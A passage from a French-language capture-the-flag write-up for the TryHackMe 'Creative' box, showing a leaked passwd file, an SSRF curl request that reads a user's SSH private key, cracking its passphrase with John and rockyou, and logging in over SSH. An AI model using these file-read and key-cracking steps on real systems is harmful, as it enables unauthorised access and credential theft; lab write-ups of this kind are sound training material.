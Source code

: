 ```
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
saad:x:1000:1000:saad:/home/saad:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```
# Acces !
Après un peu de fouinage, je trouve la clé ssh de l'utilisateur **saad**
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ curl -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/home/saad/.ssh/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABA1J8+LAd
rb49YHdSMzgX80AAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQDBbWMPTToe
wBK40FcBuzcLlzjLtfa21TgQxhjBYMPUvwzbgiGpJYEd6sXKeh9FXGYcgXCduq3rz/PSCs
48K+nYJ6Snob95PhfKfFL3x8JMc3sABvU87QxrJQ3PFsYmEzd38tmTiMQkn08Wf7g13MJ6
[...REDACTED...]
Zs0fwcKpS7h0GzikbIAcrln7ozSgjMzYawbQzEyjjR2QFySMWLGHAW4N7eZ6VfP3dBJxcs
fq4rvw54iukm24T9qAnMXuj1+9joNomiScStTV98RmVy8WMs6WW4r0f7ynhN/S/LYHya+6
D2DK4fRX8v5bY9MAsuqlBIUYH0AVUieyDBnP9QsGNnlIm8TS9UuT/gv/6+sWRpg7H5jkNz
69XRxDuLKV5jVElkEAn/B3bkpkAAcfSfXJphgtYsYbrgchSGtxWMX7FurkWbd0l0WyX//E
8OWhSwGmtO24YBhqQ47nGhDa8ceAJbr0uOIVm+Klfro2D7bPX0Wm2LC65Z6OQGvhrEbQwP
nYcg+D3hFL9ZB4GfAZzwbLAP6EYJ+Tq6I/eiJ5LKs6Q32jMfITUy3wcEPkneMwdOkd35Od
Fcm9ZL3fa5FhAEdRXJrF8Oe5ZkHsj3nXLYnc2Z2Aqjl6TpMRubuu+qnaOdCnAGu1ghqQlS
ksrXEYjaMdndnvxBZ0zi9T+ywag=
-----END OPENSSH PRIVATE KEY-----
```

Je la récupère et la crack avec John:
```                                                                                                                                                                                 
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ ssh2john id_rsa > hashrsa                                                                   
                                                                                                                                                                                                                                                                                                                                                        
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ john --wordlist=/home/kali/Wordlist/rockyou.txt hashrsa 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[...REDACTED...]        (id_rsa)     
1g 0:00:00:10 DONE (2024-04-26 06:44) 0.09960g/s 95.61p/s 95.61c/s 95.61C/s hawaii..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                     
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ 

```
J'ai le mdp! Nous voila avec une connexion SSH sur le serveur
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ ssh saad@10.10.16.209 -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
```